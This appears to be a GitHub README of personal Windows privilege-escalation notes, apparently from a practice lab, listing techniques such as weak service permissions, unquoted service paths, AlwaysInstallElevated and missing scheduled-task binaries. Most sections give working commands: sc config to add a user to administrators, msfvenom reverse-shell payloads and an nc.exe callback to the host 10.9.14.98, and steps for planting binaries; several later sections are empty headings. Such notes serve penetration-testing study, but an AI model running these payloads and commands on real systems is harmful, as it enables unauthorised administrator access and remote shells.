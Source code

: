 For Windows Priviledge Escalation guide you can follow these two posts:


1-https://www.fuzzysecurity.com/tutorials/16.html


2-https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/


HERE'S HOW I APPROACH FOR ESCALATING PRIVILEDGES:

![Windows_priv_esc_password_credentials](https://user-images.githubusercontent.com/55708909/92549895-fb567a00-f277-11ea-947d-8929d12b723d.png)


1- Services (binpath):
-----------------------------------------------------------------------
         First transfer the accesschk64.exe to system 
   
         Run accesschk64.exe -accepteula
   
         Run accesschk64.exe -wvuc "Service name"       accesschk64.exe -wvuc daclsvc
   
   ![Service(BIn_Path)](https://user-images.githubusercontent.com/55708909/92556310-390ecf00-f287-11ea-8a85-1af55670e7aa.png)

          You will see that everyone has read and write permission to change SERVICE_CHANGE_CONFIG
          
          Write this: sc config daclsvc binPath= "net localgroup administrators user /add"
          
          Then write this : sc start daclsvc 
          
          You will be added to admin group 

![Service(BIn_Path_1)](https://user-images.githubusercontent.com/55708909/92556850-8c355180-f288-11ea-982b-b02fd5864ca2.png)


2- Services (Unquoted path):
---------------------------------------------------------------------------------------
          For it to work we need to identify which are the path which are not included in quotes
          
          wmic service get name,pathname,startmode | findstr /i /v "c:\windows\\" | findstr /i /v """
          
 ![Service(Unquoted_path)](https://user-images.githubusercontent.com/55708909/92557524-05817400-f28a-11ea-9d03-b9f21efc8826.png)

          First transfer nc.exe to C:\Users\user directory
          
          msfvenom -p windows/exec CMD="C:\Users\user\nc.exe 10.9.14.98 443 -e cmd.exe" -f exe-service > common.exe
          
          Transfer the common.exe to C:\Program Files\Unquoted Path Service
          
          type sc start unquotedsvc
          
 ![Service(Unquoted_path_1)](https://user-images.githubusercontent.com/55708909/92558713-c3a5fd00-f28c-11ea-9423-fe436ac65491.png)
         
          

3- Service (Registry):
-------------------------------------------------------------------------------------------
            
            For this to work check for registry permission using this commands.
            
            Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
            
![Service_registry_1](https://user-images.githubusercontent.com/55708909/92689186-34681a80-f35c-11ea-9f43-9d23a8807143.png)

            
4- Services( Executable files):
---------------------------------------------------------------------------------------------
          
           Transfer the accesschk.exe to pc and check for weak executable service
           
![Service(Executable)](https://user-images.githubusercontent.com/55708909/92559368-1a600680-f28e-11ea-940d-2472ece84622.png)
 
            We notice that everyone has read and write access to filepermservice.exe
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > filepermservice.exe
            
            transfer filepermservice.exe to target system
            
            copy /y filepermservice.exe "C:\Program Files\File Permissions Service"

            sc start filepermsvc 
            
![Service(Executable_1)](https://user-images.githubusercontent.com/55708909/92560004-45972580-f28f-11ea-88fd-f5c365dd41ef.png)

           
5- Registry (Always installed elevated):
---------------------------------------------------------------------------------------------
            
            reg query HKLM\Software\Policies\Microsoft\Windows\Installer
            
            reg query HKCU\Software\Policies\Microsoft\Windows\Installer
            
            If they gave output as 1 then this means we can create our payload in msi format and can escalate priv
            
            msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f msi > access.msi

            Transfer it to target machine
            
            msiexec /quiet /qn /i C:\Users\user\access.msi
 
            Netcat session with admin rights
            
![Registry(Always_install)](https://user-images.githubusercontent.com/55708909/92560985-ef2ae680-f290-11ea-8166-aeb34190e869.png)
            
6- Registry (Modified autorun): Need to have admin login to work
-------------------------------------------------------------------------------------------------
             
   ![REgistry_auto_run](https://user-images.githubusercontent.com/55708909/92561769-72007100-f292-11ea-919a-444e7874cd5b.png)
   
             As you can see everyone has read and write to program.exe this means simply replace that executable
              
             with your version of executable and wait for admin to login and have admin rights

7- Password minig (Registry):
-------------------------- -----------------------------------------------------------------

![Password_mining(REgistry)](https://user-images.githubusercontent.com/55708909/92564190-66af4480-f296-11ea-9139-eea67ec26650.png)

             
8- Password mining (Memory)
-----------------------------------------------------------------------------------------
          

9- Password mining (Configuration Files):
------------------------------------------------------------------------------------------
        
![Password_mining(Configuration)](https://user-images.githubusercontent.com/55708909/92562987-7ded3280-f294-11ea-9a0e-b9551fae7529.png)

![Password_mining(Configuration_1)](https://user-images.githubusercontent.com/55708909/92563469-3e731600-f295-11ea-98ad-8517e167fc2f.png)

            
10- Scheduled tasks (Missing binary):
------------------------------------------------------------------------------------------

        While checking for schedule task we found one of the binary missings.
        
 ![Windows_Priv_Esc_scheduled_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596152-04b90400-f2c3-11ea-8f25-7d4b8ac8379b.png)
       
        Program.exe is missing
        
        msfvenom -p windows/shell_reverse_tcp LHOST=10.9.14.98 LPORT=4444 -f exe > program.exe
        
        Put it in C:\Missing Schedule Binary and restart pc 
        
        You will have admin access

![Schedule_task_missing_binary](https://user-images.githubusercontent.com/55708909/92596554-9cb6ed80-f2c3-11ea-9f13-c4a96b5ba764.png)


11- Startup applications: (Need to have admin login to work)
--------------------------------------------------------------------------------------------
        
        As you can see users has full access over the mention directory and therefore can change the binary with there
        
        own version and thus leding to priv escalations
        
![Start_up_app_1](https://user-images.githubusercontent.com/55708909/92597636-51054380-f2c5-11ea-9ddd-aa93dfbf7ab7.png)
        
        Put the exe in mention directory and wait for admin to login to esc priv
        
12- Potato attacks:
--------------------------------------------------------------------------------------------

13- DLL Hijacking:
----------------------------------------------------------------------------------------------

14-Kernel exploits:
----------------------------------------------------------------------------------------------
